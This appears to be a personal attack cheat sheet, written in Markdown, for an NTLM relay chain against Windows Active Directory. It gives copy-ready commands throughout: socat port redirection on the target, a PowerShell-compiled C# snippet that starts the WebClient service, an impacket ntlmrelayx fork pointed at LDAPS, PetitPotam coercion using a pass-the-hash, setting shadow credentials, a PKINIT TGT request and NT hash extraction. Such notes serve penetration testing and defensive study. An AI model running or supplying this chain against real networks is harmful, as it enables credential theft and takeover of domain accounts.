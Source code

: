 ```yaml
---
title: "NTLM Relay Attack"
date: 2024-8-3
tags: ["Shadow Credentials", "Attack Chain", "Ntlm", "Ldap", "Pass-The-Hash", "Impacket", "Ntlmreplay", "Petitpotam", "Active Driectory", "Windows", "ADCS", "Webdav", "Pkinit", "Ticket Granting Ticket"]
---
```


### NTLM Relay Attack

#### 1. Run socat to redirect traffic (In Windows Target)

```console
# Upload socat.zip and unzip
Add-Type -AssemblyName System.IO.Compression.FileSystem; [System.IO.Compression.ZipFile]::ExtractToDirectory('c:\programdata\socat.zip', 'c:\programdata')
```

```console
.\socat.exe tcp-listen:8090,reuseaddr,fork tcp:<LOCAL_IP>:80
```

<small>*Ref: [socat](https://codeload.github.com/StudioEtrange/socat-windows/zip/refs/heads/master)*</small>

#### 2. Enable webdav (In Windows Target)

```console
$Source = @"
using System;
using System.Text;
using System.Security;
using System.Collections.Generic;
using System.Runtime.Versioning;
using Microsoft.Win32.SafeHandles;
using System.Runtime.InteropServices;
using System.Diagnostics.CodeAnalysis;

namespace JosL.WebClient{
	public static class Starter{
		[StructLayout(LayoutKind.Explicit, Size=16)]
		public class EVENT_DESCRIPTOR{
			[FieldOffset(0)]ushort Id = 1;
			[FieldOffset(2)]byte Version = 0;
			[FieldOffset(3)]byte Channel = 0;
			[FieldOffset(4)]byte Level = 4;
			[FieldOffset(5)]byte Opcode = 0;
			[FieldOffset(6)]ushort Task = 0;
			[FieldOffset(8)]long Keyword = 0;
		}
 
		[StructLayout(LayoutKind.Explicit, Size = 16)]
		public struct EventData{
			[FieldOffset(0)]
			internal UInt64 DataPointer;
			[FieldOffset(8)]
			internal uint Size;
			[FieldOffset(12)]
			internal int Reserved;
		}
 
		public static void startService(){
			Guid webClientTrigger = new Guid(0x22B6D684, 0xFA63, 0x4578, 0x87, 0xC9, 0xEF, 0xFC, 0xBE, 0x66, 0x43, 0xC7);
 
			long handle = 0;
			uint output = EventRegister(ref webClientTrigger, IntPtr.Zero, IntPtr.Zero, ref handle);
 
			bool success = false;
 
			if (output == 0){
				EVENT_DESCRIPTOR desc = new EVENT_DESCRIPTOR();
				unsafe
				{
					uint writeOutput = EventWrite(handle, ref desc, 0, null);
					success = writeOutput == 0;
					EventUnregister(handle);
				}
			}
		}
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventRegister(ref Guid guid, [Optional] IntPtr EnableCallback, [Optional] IntPtr CallbackContext, [In][Out] ref long RegHandle);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern unsafe uint EventWrite(long RegHandle, ref EVENT_DESCRIPTOR EventDescriptor, uint UserDataCount, EventData* UserData);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventUnregister(long RegHandle);
	}
}
"@

$compilerParameters = New-Object System.CodeDom.Compiler.CompilerParameters
$compilerParameters.CompilerOptions="/unsafe"
Add-Type -TypeDefinition $Source -Language CSharp -CompilerParameters $compilerParameters
[JosL.WebClient.Starter]::startService()

```

<br>

```console
# Run enable_webdav.ps1
C:\programdata\enable_webdav.ps1
```

#### 3. Start ntlmrelayx listener (In Local Linux)

#### Get impacket fork : Add Shadow Credentials Commands to Ntlmrelayx's Interactive LDAP Shell

```console
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
```

```console
cd impacket
```

```console
git checkout -b remotes/origin/interactive-ldap-shadow-creds
```

```console
python3 -m venv test
```

```console
source test/bin/activate
```

```console
pip install .
```

```console
pip3 install impacket pyOpenSSL==24.0.0
```

#### Run ntlmrelayx

```console
proxychains4 examples/ntlmrelayx.py -t ldaps://<DC> --delegate-access -i
```

#### 4. Run PetitPotam (In Local Linux)

```console
proxychains4 python3 PetitPotam.py -u <USER> -hashes :<HASH> <SOCAT_HOSTNAME>@8090/test <SOCAT_LISTENER_IP> -pipe all
```

<small>*Ref: [PetitPotam](https://github.com/topotam/PetitPotam)*</small>

#### 5. Connect to LDAP shell (In Local Linux)

```console
rlwrap nc 127.0.0.1 11000
```

```console
clear_shadow_creds <SOCAT_HOSTNAME>$
```

```console
# Take Note of pfx path and password
set_shadow_creds <SOCAT_HOSTNAME>$
```

#### 6. Request TGT using pfx file (In Local Linux)

```console
proxychains4 python3 gettgtpkinit.py '<DOMAIN>/<SOCAT_HOSTNAME>$' <SOCAT_HOSTNAME>.ccache -cert-pfx <RANDOM_CHARS>.pfx -pfx-pass <RANDOM_CHARS_PASSWORD> -dc-ip <DC>
```

<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

#### 7. Get NT Hash (In Local Linux)

```console
proxychains4 python3 getnthash.py '<DOMAIN>/<SOCAT_HOSTNAME>$' -key <AS_REP_ENC_KEY>
```
